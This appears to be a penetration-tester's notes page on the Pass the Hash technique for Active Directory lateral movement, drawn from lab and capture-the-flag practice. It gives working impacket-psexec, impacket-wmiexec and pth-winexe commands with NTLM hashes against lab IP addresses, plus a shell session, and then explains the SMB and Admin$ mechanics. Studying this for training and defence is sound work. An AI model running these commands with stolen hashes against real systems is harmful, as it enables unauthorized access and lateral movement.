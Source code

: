 ```yaml
---
description: >-
  Pass The Hash
title: Pass The Hash              # Add title here
date: 2023-02-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, pass the hash]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

> To extract hashes for a pass the hash, go to [Dumping SAM](https://shuciran.github.io/posts/Dumping-SAM/) section or [DCSync](https://shuciran.github.io/posts/DCSync/) section.
{: .prompt-tip }

### Impacket-psexec
You can use impacket-psexec to pass the hash into winrm service:
```bash
impacket-psexec offsec.local/Administrator:@192.168.143.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-psexec)
[[Sauna#^]]
### Impacket-wmiexec
```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-wmiexec)

### PtH
We can use _pth-winexe_ from the Passing-The-Hash toolkit, just as we did when we passed the hash to a non-domain joined user in the Password Attacks module:
```
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

### Explanation
The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication.

Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including PsExec from Metasploit, Passing-the-hash toolkit, and [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py). The mechanics behind them are more or less the same in that the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.

Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using _Named Pipes_. This is done using the Service Control ManagerAPI.

This technique requires an SMB connection through the firewall (commonly port 445), and the Windows _File and Print Sharing_ feature to be enabled. These requirements are common in internal enterprise environments.

When a connection is performed, it normally uses a special admin share called Admin$. In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

Note that PtH uses the NTLM hash legitimately. However, the vulnerability lies in the fact that we gained unauthorized access to the password hash of a local administrator.



